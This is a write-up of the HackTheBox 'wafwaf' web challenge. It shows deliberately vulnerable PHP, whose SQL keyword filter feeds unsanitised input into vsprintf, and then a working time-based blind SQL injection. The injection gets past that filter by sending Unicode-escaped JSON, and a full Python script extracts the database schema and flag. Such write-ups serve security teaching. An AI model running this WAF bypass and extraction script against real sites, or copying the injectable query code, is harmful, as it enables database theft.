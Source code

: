 ```yaml
---
title: HackTheBox Challenge - Web - wafwaf
image: '/assets/wafwaf.png'
created: 2021-08-21
tags:
  - 'ctf'
  - 'sqli'
  - htb
  - web
---
```


- Let's start with the challenge. It's a medium category challenge 
- If we navigate to the given ip address we get this source code
![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img1.png)

```php
<?php error_reporting(0);
require 'config.php';

class db extends Connection 
{
    public function waf($s) 
    {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) 
            die(var_dump($matches[0]));
        
        return json_decode($s);
    }

    public function query($sql) 
    {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') 
{
    $obj = $db->waf(file_get_contents('php://input'));
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);

} 
else 
{
    die(highlight_file(__FILE__, 1));
}
?>
```

- Starting from the top the function `error_reporting(0);` is used to remove all errors, warnings, parse messages, and notices, the parameter that should be passed to the error_reporting function **is zero**.
- Then we have a `db` class which inheriting from the `Connection` class. Inside this class we have a method(function) called `waf` which is basically filtering out our inputs and working as some kind of firewall hence the name waf:`web application firewall`. 
- Then the `preg_match_all()` function returns the number of matches of a pattern that were found in a string and populates a variable with the matches that were found.
- The `implode()` is a builtin function in PHP and is used to join the elements of an array. implode() is an alias for [PHP | join() function](https://www.geeksforgeeks.org/php-join-function/) and works exactly same as that of join() function. 
- And the `preg_quote()` function adds a backslash to characters that have a special meaning in regular expressions so that searches for the literal characters can be done. This function is useful when using user input in regular expressions.
- So if we insert any kind of input which contains the black listed commands the query will simply die dumping the matches & will not return anything. 

- Playing with the input field & I got these
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img2.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img3.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img4.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img5.png)
- So `'` is getting filtered but we can use `"` and also case-insensitive.
- After some more research I found this article which states we can bypass WAFs by sending uincode escaped characters  sending them as JSON objects. https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/
- Some hard word trail & error i finally created a payload which actually works `{"user":"d' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))NtXP)-- wxyg"}`
- Building on this I created a script for this

```py
#!/usr/bin/python3
#TODO: Too slow add threading 
import requests
from time import time
from sys import argv
import string

url = f"http://{argv[1]}/"
char_set = string.ascii_lowercase + '_' #+ string.digits  
flag_set = string.ascii_lowercase + '_' + string.digits + '}' #+ string.ascii_uppercase 

def uni_encode(payload):
	result = ""
	for i in range(len(payload)):
		result += '\\u%.4X' % ord(payload[i])
	return result	

def fetch_data(url, len_, name):
	global database
	print("[*]Getting info...")
	res = ""
	#print('{"user":"%s"}' % payload)
	for i in range(1, len_+1):
		for char in char_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 5:
				res += char
				print(f"[*]{name}: {res}")
				#break
			
	return res

def get_flag(url):
	global database, table, column
	print("[*]Getting Flag...")
	flag = "HTB{"
	
	while '}' not in flag:
		pos = len(flag) + 1
		for char in flag_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR({column}, {pos}, 1) FROM {database}.{table} ) = '{char}', SLEEP(3), 0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 3:
				flag += char
				print(f"[*]FLag: {flag}")
				break
	return flag


#payload = "d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_schema, 1, 1) FROM information_schema.tables WHERE table_schema LIKE '%db%' AND table_name LIKE '%flag%' LIMIT 1 ) = 'd' ,SLEEP(5),0))))x)-- wxyg"
# database = fetch_data(url, 8, Database)
# print(database)
database = "db_m8452"


#payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_name, {i}, 1) FROM information_schema.tables WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"
#tables = fetch_data(url, 21, "Tables")
table = "definitely_not_a_flag"

#payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"
#columns = fetch_data(url, 4, "Columns")
column = "flag"

print(f"[!]Flag: {get_flag(url)}")
```
- We got the info. about the database, table and column
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img6.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img7.png)
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img8.png)
- We got the flag 
- ![](https://gitlab.com/Aviksaikat/write-ups/-/raw/main/challenges/hackthebox_wafwaf/images/img9.png)
